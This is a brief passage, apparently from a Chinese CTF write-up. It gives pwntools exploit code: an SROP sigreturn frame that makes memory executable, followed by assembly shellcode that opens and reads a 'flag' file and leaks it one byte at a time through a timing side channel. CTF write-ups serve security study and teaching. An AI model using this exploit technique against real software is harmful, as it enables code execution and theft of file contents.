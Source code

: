 ```plain
frame = SigreturnFrame()
frame.rdi = 10
frame.rsi = 0x404000
frame.rdx = 0x1000
frame.rcx = 7
frame.rip = syscall
frame.rsp = 0x4041ba
pl = b'\x00'*0x52+p64(rax_15)+p64(syscall2)+bytes(frame)+p64(0x404260)
pl = pl.ljust(0x200,b'\x00')
pl+=shellcode
```

[![](assets/1703640353-cb84c7b377ffc503aedc57af6895fec1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231225192006-8e9f21d8-a317-1.png)  
可以看到这里 ret 就是去执行 shellcode 了，下面只需要把 shellcode 换成侧信道爆破的 shellcode 就行

```plain
shellcode = asm('''
            mov r12,0x67616c66
            push r12
            mov rdi,rsp
            xor esi,esi
            xor edx,edx
            mov al,2
            syscall
            mov rdi,rax
            mov rsi,0x404500
            mov dl,0x40
            xor rax,rax
            syscall
            mov dl, byte ptr [rsi+{}]
            mov cl, {}
            cmp cl,dl
            jz loop
            mov al,60
            syscall
            loop:
            jmp loop
            '''.format(dis,char))
```
